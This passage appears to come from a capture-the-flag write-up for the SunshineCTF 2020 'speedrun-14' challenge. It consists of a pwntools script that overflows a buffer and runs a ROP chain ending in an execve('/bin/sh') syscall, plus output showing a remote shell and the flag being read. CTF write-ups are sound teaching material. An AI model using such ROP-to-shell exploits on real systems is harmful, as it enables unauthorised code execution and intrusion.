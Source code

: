 ```python
IMAGE_BASE_0 = binary.address
rebase_0 = lambda x : p64(x + IMAGE_BASE_0)
rop  = b''
rop += rebase_0(0x000000000000da7b) # 0x000000000040da7b: pop r13; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068a29) # 0x0000000000468a29: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000da7b) # 0x000000000040da7b: pop r13; ret;
rop += p64(0x0000000000000000)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068a29) # 0x0000000000468a29: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010263) # 0x0000000000410263: pop rsi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004c086) # 0x000000000044c086: pop rdx; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x00000000000158f4) # 0x00000000004158f4: pop rax; ret;
rop += p64(0x000000000000003b)
rop += rebase_0(0x0000000000074e35) # 0x0000000000474e35: syscall; ret;

payload  = 0x68 * b'A'
payload += rop

p.sendline()
p.sendline(payload)
p.interactive()
```

Output:

```bash
# ./exploit_14.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-14/chall_14'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30014: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_14) gid=1000(chall_14) groups=1000(chall_14)
$ ls -l
total 832
-rwxr-xr-x 1 root root     844816 Nov  7 07:49 chall_14
-rw-r----- 1 root chall_14     39 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{hail-to-the-king-c24f18e818fb4986}
```
